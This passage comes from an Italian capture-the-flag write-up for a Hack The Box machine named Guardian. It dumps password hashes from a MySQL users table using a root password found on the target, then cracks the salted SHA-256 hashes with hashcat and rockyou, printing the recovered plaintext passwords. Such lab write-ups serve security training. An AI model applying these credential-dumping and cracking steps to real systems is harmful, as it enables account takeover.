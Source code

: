 ```bash
username        varchar(255)    YES     UNI     NULL
password_hash   varchar(255)    YES             NULL
full_name       varchar(255)    YES             NULL
email   varchar(255)    YES             NULL
dob     date    YES             NULL
address text    YES             NULL
user_role       enum('student','lecturer','admin')      YES             student
status  enum('active','inactive')       YES             active
created_at      timestamp       YES             CURRENT_TIMESTAMP       DEFAULT_GENERATED
updated_at      timestamp       YES             CURRENT_TIMESTAMP       DEFAULT_GENERATED on update CURRENT_TIMESTAMP
```

Si memorizzano e trasferiscono sulla macchina Kali le credenziali rubate.

```bash
www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; SELECT username, password_hash FROM users;' > /tmp/users.txt

www-data@guardian:~/portal.guardian.htb/admin$ mysql --user=root --password='Gu4rd14n_un1_1s_th3_b3st' --execute='USE guardiandb; SELECT password_hash FROM users;' > /tmp/passwd.txt
```

## Crack the Passwords

Dal file **portal.guardian.htb/admin/createuser.php** si risale a come vengono memorizzate le password.

```php
$password = hash('sha256', $password . $salt);
```

Si utilizza hashcat per il cracking delle passwords.

![Hashcat](./img/hashcat.png)

Da [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) il formato per crackare con hashcat prevede di concatenare il salt al valore della password.

Si modifica il file **passwd.txt**, concatenando alle password il **salt**.

```bash
# password:salt
$ sed -e 's/$/:8Sb)tM1vs1SS/' -i passwd.txt
```

Si tenta il cracking delle passwords.

```bash
$ hashcat -a 0 -m 1410 passwd.txt /usr/share/wordlists/rockyou.txt.gz

694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6:8Sb)tM1vs1SS:fakebake000
c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS:copperhouse56
```
